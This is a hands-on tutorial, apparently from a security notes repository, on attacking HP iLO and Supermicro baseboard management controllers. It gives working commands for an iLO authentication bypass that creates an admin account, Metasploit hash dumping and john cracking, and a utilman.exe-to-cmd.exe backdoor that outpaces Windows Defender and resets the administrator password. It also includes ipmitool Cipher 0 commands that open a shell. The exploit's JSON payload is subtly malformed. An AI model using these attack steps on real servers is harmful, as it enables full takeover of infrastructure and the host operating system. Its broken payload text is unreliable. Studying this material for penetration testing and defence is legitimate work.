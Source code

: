 # Attacking BMC and IPMI

HP iLO 4 has a web interface to monitor and configure managed servers. The version is already displayed on the screen. The default username for iLO web interface `administrator` is typically printed directly on the server.
The default password contains 8 random uppercase alphanumeric / numeric which is a pretty weak format. 
There are a large number of critical vulnerabilities, listed below:

| **iLO version** | **CVE**        | **Year** | **Vulnerability**                                            | **Score** | **Version**                                  |
| --------------- | -------------- | -------- | ------------------------------------------------------------ | --------- | -------------------------------------------- |
| **iLO 4/5**     | CVE-2019-11983 | 2019     | Remote buffer overflow vulnerability.                        | **8.3**   | iLO 4: < v2.61b iLO 5: < v1.39               |
| **iLO 3/4/5**   | CVE-2018-7105  | 2018     | Remotely exploitable vulnerability to execute arbitrary code leading to the disclosure of information. | **9**     | iLO 3: < v1.90 iLO 4: < v2.61 iLO 5: < v1.35 |
| **iLO 4/5**     | CVE-2018-7078  | 2018     | Remote code execution vulnerability.                         | **9**     | iLO 4: < v2.61 iLO 5: < v1.30                |
| **iLO 4**       | CVE-2017-12542 | 2017     | An authentication bypass and execution of code vulnerability with public exploit. | **10**    | iLO 4: < v2.53                               |
| **iLO 2/4**     | CVE-2014-7876  | 2014     | A remote user can execute arbitrary code on the target system, gain elevated privileges and cause a denial of service condition. | **10**    | iLO 2: < v2.27 iLO 4: < v2.03                |
| **iLO 3/4**     | CVE-2013-2338  | 2013     | Remote code execution vulnerability.                         | **10**    | iLO 3: < v1.57 iLO 4: < v1.22                |
| **iLO 3/4**     | CVE-2012-3271  | 2012     | The vulnerability allows remote attackers to obtain sensitive information. | **9.3**   | iLO 3: < v1.50 iLO 4: < v1.13                |

A complete list can be found [here](https://www.cvedetails.com/vulnerability-list/vendor_id-10/product_id-23648/HP-Integrated-Lights-out-4-Firmware.html)
With administrative access, the firmware can be replaced, erasing firmware components, or install ransomware. 
It is further possible to pivot to the host OS as well, which we will demonstrate using `CVE-2017-12542`, bypassing authentication, and creating a new administrator user on the system.

## Exploiting CVE-2017-12542

First we start a port-scan to determine open ports and services. BMC's typically expose 80/443, 23, or 22, 623 (IPMI UDP and TCP). Additionally, you might find SNMP (UDP 161/162), syslog (514), and Virtual Media (17988). It's not advised to to scan heavy using -A or -sV with -p- for all ports. Since we already have an idea of ports that will be available, we can scan with the following:
```bash 
# Scan for Open Ports
nmap -sU -sS -p U:623,161,162,T:80,443,22,23,514 [HP iLO IP]
# Service scan on open TCP ports
nmap -sV -p22,80,443,514,17988 [HP iLO IP]
# Service scan on UDP 
nmap -sUV -p U:623,161,162 [HP iLO IP]
```

Since we already know the HP iLO version, we can determine that it's vulnerable to an authentication bypass vulnerability. 

### Exploitation

We can confirm if the target is vulnerable using a single curl command:
```bash
# If successful, returns list of iLO user accounts
curl -k -i -H "Connection: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA" https://192.168.100.140/rest/v1/AccountService/Accounts
```

Since we know the target is vulnerable, we can issue requests as if we were authenticated. 
For example, we could generate a request to create a new user with admin privileges.

[Python Exploit](https://www.exploit-db.com/exploits/44005)

```shell
# We can execute - -e triggers the exploit function, while -t only tests
python 44005.py -u username -p password -e [HP iLO IP]
# Once executed, we can login as the new user to the iLO interface
```

Alternatively, we can use `hp_ilo_create_admin_account` Metasploit module:

```shell
use auxiliary/admin/hp/hp_ilo_create_admin_account
set rhost [HP iLO IP]
set username user1
set password 12345678
run
```

We could also just run a curl command:

```bash
curl -i -s -k -X $'POST' -H $'Host: [HP iLO IP]' -H $'Connection: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' -H $'Content-Type: application/json' -H $'Content-Length: 233' --data-binary $'{\"Username\":\"user1\",\"Password\":\"12345678\",\"Oem\":{\"Hp\":{\"LoginName\":\"user1\",\"Privileges\":{\"LoginPriv\":true,\"RemoteConsolePriv\":true,\"UserConfigPriv\":true,\"VirtualMediaPriv\":true,\"VirtualPowerAndResetPriv\":true,\"iLOConfigPriv\",true}}}}\x0d\x0a' 'https://[HP iLO IP]/rest/v1/AccountService/Accounts'
```

## Pivoting to the Host OS

Now that we have access to iLO, we can pivot to compromise the server OS. Let's look at CVE-2013-4786. 
The `ipmi_dumphashes` module in Metasploit can be used to retrieve the password hash - we can setup the `OUTPUT_JOHN_FILE` to store the captured hases in the John format too. 

```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts [HP iLO IP]
set OUTPUT_JOHN_FILE /root/Desktop/ilohash/ilohash.txt
run
# Crack with john - default iLO = 8 random uppercase alphanumeric / numeric
john --mask=?d?d?d?d?d?d?d?d ilohash.txt
```

http://fish2.com/ipmi/remote-pw-cracking.html

### Pivoting

Now we can take a look at the Remote Console feature to look at the screen of the host OS. 
We can launch a Java Remote Console to take us to the screen on the host. 
Next we could hopefully link `Ease of Access` button in the bottom right corner to the `cmd.exe`. `Utilman.exe` was patched however in September 2018, which incolved renaming the file as malware. We can still work around this. 

1. Boot the system using a boot disk - we can rename `cmd.exe` to `utilman.exe`. We can use the Windows Server 2019 installation ISO. 
2. In Virtual drives menu, we can mount the iamge file as CD/DVD-ROM - select the installation ISO, and choose `Momentary Press` in the `Power Switch` menu to reboot the server
3. When it reboots, we are presented with windows setup menu. From here, we choose `Repair your Computer`. 
4. Choose `Troubleshoot` followed by `Command Prompt`.
5. Renamed utilman: `move D:\Windows\System32\Utilman.exe D:\Windows\System32\Utilman.exe.old`
6. Create cmd.exe named `utilman`: `copy D:\Windows\System32\cmd.exe D:\Windows\System32\utilman.exe`
7. Reboot: `wpeutil reboot`
8. Remove the ISO from virtual drives , then boot in SAFE mode to prevent Windows Defender from flagging. In this mode, it takes about 30 seconds for Defender to start, and we can launch cmd.exe, change the password before the shell is terminated: `net user administrator AdminAdmin123!!!`

## Supermicro 

Supermicro also has a number of vulnerabilities. We can look at `CVE-2013-4782` - Authentication bypass via Cipher 0. The only information required to bypass is a valid username, but since it typically ships with a default admin account, this shouldn't be an issue. 

```shell 
# Check if Cipher 0 is enabled on the target
use auxiliary/scanner/ipmi/ipmi_cipher_zero
set rhosts [Target IP]
run

# Install ipmitool 
apt-get install ipmitool 
# Check help options
ipmitool -h
# We need to provide -I to specify interface, -C for Cipher 0, -H for host IP, -U for username, -P for an arbitrary password, [IPMI command]
ipmitool -I lanplus -C 0  -H [target] -U ADMIN -P any lan print
# Retrieve list of users on IPMI interface
ipmitool -I lanplus -C 0 -H [Target IP] -U ADMIN -p any user list
# Finally, an interactive shell
ipmitool -I lanplus -C 0 -H [Target IP] -U ADMIN -P any shell
```

https://linux.die.net/man/1/ipmitool

http://fish2.com/ipmi/cipherzero.html

### Clear-text passwords on port 49152

Supermicro is subject to file exposure vulnerability on the web interface. 

```shell
# We will use the smt_ipmi_49152_exposure_module
use auxiliary/scanner/http/smt_ipmi_49152_exposure
set rhosts [Target IP]
run
# Verify returned credentials that were exposed using ipmitool
ipmitool -I lanplus -H [Target IP] U ADMIN -P P@ssw0rd user list
```

Other modules that are usable:

- use auxiliary/scanner/http/smt_ipmi_49152_exposure
- use auxiliary/scanner/http/smt_ipmi_cgi_scanner
- use auxiliary/scanner/http/smt_ipmi_url_redirect_traversal
- use auxiliary/scanner/ipmi/ipmi_dumphashes
- use auxiliary/scanner/ipmi/ipmi_version
- use exploit/linux/http/smt_ipmi_close_window_bof